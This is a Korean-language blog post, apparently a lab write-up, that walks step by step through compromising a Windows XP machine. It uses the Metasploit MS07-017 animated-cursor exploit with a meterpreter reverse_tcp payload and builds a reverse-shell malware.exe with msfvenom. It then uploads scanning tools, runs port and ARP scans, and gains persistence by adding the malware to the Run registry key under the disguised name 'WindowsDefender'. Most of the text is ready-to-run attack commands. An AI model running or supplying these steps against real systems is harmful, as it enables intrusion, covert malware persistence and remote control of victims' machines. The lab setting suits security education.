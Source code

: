 ```yaml
---
title: 네트워크보안 정보수집과 제어 지속
author:
  name: Cotes Chung
  link: https://github.com/cotes2020
date: 2022-05-10 20:00:00 +0800
categories: [Blogging, Network]
tags: [getting started]
pin: false
---
```


## Step1. 세션 획득

---

msfconsole을 이용하여 윈도우 xp의 세션을 획득한다.

저번 차시에 사용되었던 redirect.php를 이용하여 세션을 얻는 방법이다.

많은 부분은 생략을 하도록 한다.

<br>

> CentOS에서 진행한다.

CentOS에서 웹 서비스를 사용할 수 있도록 한다.

```console
centos# service httpd start
```

<br>

> Kali에서 진행한다.

애니커서 취약점이 있는 msfconsole 공격 스크립트를 작성한다.

```vim
#파일명 : ms07_017_meterpreter_reverse_tcp.rc

use exploit/windows/browser/ms07_017_ani_loadimage_chunksize
set SRVPORT 8080
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.57.10
exploit
```

```console
kali# msfconsole -r ms07_017_meterpreter_reverse_tcp.rc
```

<br>

msfvenom을 사용해 윈도우 xp의 세션을 얻을 수 있는 악성 프로그램(malware)을 만든다.

```console
kali# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.57.10 LPORT=8081 -f exe > malware.exe
```

<br>

> 윈도우 xp에서 진행 한다.

사용자(xp)가 CentOS 서버에 접속하여 공격자에게 세션 정보가 넘어가는지 확인한다.

![1](https://user-images.githubusercontent.com/59737252/167641574-13e8d460-bbb4-472e-a2bd-71511783a3ea.png)

![2](https://user-images.githubusercontent.com/59737252/167641813-8df513f6-123d-4ce0-ad23-599b3bb5c744.png)

<br>

## Step2. 악성 파일 업로드

---

애니 커서 취약점을 통해 얻은 세션으로 악성 파일 및 정보수집 툴을 업로드 한다.

> 칼리에서 진행한다.

```console
#세션 설정
msf> sessions -l     #세션 목록 확인
msf> sessions -i 1   #세션 선택

#파일 업로드
meterpreter> upload /var/www/plink.exe c:\\windows\\temp\\plink.exe
meterpreter> upload /var/www/arping.exe c:\\windows\\temp\\arping.exe
meterpreter> upload /var/www/arping_auto.bat c:\\windows\\temp\\arping_auto.bat
meterpreter> upload /root/Desktop/malware.exe c:\\windows\\temp\\malware.exe
meterpreter> upload /root/Desktop/PortQry.exe c:\\windows\\temp\\PortQry.exe
```

![4](https://user-images.githubusercontent.com/59737252/167646800-6626f560-b631-4760-a222-946cbf2d6554.png)

![3](https://user-images.githubusercontent.com/59737252/167646792-f31d135c-4fd7-4438-ba61-c1408ec262ce.png)

<br>

## Step3. 정보 수집

Remote System Discovery 기술이 사용된 ARPING,

Network Service Scanning 기술이 사용된 PORTQRY를 사용하여 정보수집을 한다.

<br>

### PortQry를 이용한 정보 수집

> CentOS에서 진행한다.

PortQry를 이용하여 포트 스캐닝을 위해서 sshd와 httpd 서비스를 실행하여 준다.

```console
centos# service sshd start   # 22번 포트
centos# service httpd start  # 80번 포트
```

![5](https://user-images.githubusercontent.com/59737252/167650243-77d6aa77-4b98-422a-b607-7f95626b8ad9.png)

<br>

> kali에서 진행한다.

사용자(xp)에서 웹 서버 주소로 포트 스캐닝을 한다.

```console
meterpreter> shell    #쉘 획득
> cd c:\windows\temp
> PortQry -n 192.168.57.80 -o 21,22,25,445,139,80
```

<br>

포트 스캐닝 결과를 보면, 22번 포트와 80번 포트가 열린것을 볼 수 있다.

또한 마이크로소프트에서 지원하는 445번과 139번이 NOT LISTENING 인것으로 보아 윈도우 서버가 아님을 알 수 있다.

![6](https://user-images.githubusercontent.com/59737252/167652600-f9f41991-12e2-4fee-a73a-a2aa29435938.png)

<br>

---

### ARPING을 이용한 정보 수집

<br>

arping툴을 이용하여 스캐닝할 수 있도록 arping_auto.bat 파일을 사용한다.

코드를 보면 1~30까지 반복하면서, arping 실행 결과를 result.txt로 출력하는것을 알 수 있다.

```shell
#arping_auto.bat

@echo off
set /a n=0
:repeat
set /a n+=1
echo 192.168.56.%n%
arping.exe -n 1 192.168.56.%n% >> result.txt
if %n% lss 30 goto repeat
```

<br>

> kali에서 진행한다.

```console
meterpreter> shell    #쉘 획득
> cd c:\windows\temp
> arping_auto.bat

> type result.txte
```

<br>

결과를 보았을 때,

게이트웨이(192.168.56.2), xp1(192.168.56.10), xp2(192.168.56.20)가 응답한 것을볼 수 있다.

![9](https://user-images.githubusercontent.com/59737252/167656308-7860b47c-0d10-4b0b-ae82-4f2c9a3e1497.png)

![7](https://user-images.githubusercontent.com/59737252/167656705-ba3b0f1e-6bd6-4fe5-8d9f-23d943871187.png)

![8](https://user-images.githubusercontent.com/59737252/167656082-56309303-397a-4a31-8fce-987129d2753a.png)

<br>

<br>

## Step4. 제어 지속

---

<br>
악성 코드 제어지속을 위해 레지스트리에 접근한다.

레지스트리 경로는 "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" 에 접근을 하도록 하는데, 이는 부팅시 자동으로 실행해주는 목록이다.

공격자가 사용자의 쉘이 이미 확보된 상태에서 진행한다.

<br>

> kali에서 진행한다.

```console
meterpreter> shell

> reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "WindowsDefender" /t REG_SZ /d "C:\Windows\Temp\malware.exe" /f
```

![10](https://user-images.githubusercontent.com/59737252/167658579-1a875a54-49ee-4ad7-a7e0-1aa06b5d086f.png)

<br>

해당 명령어가 정상적으로 되었다면, 윈도우에서 레지스트리가 잘 저장되었는지 확인하도록 한다.
![11](https://user-images.githubusercontent.com/59737252/167658775-5c8b089a-503e-4fc3-a154-f2bfde9034b3.png)

<br>

칼리 리눅스에서 핸들러를 켜놓고, 사용자(xp)를 재부팅 시켜보면 부팅될 때마다 malware가 실행되어 세션이 넘어가는것을 볼 수 있다.

![12](https://user-images.githubusercontent.com/59737252/167660292-23e72814-9b39-416c-916a-b331716f70d7.png)
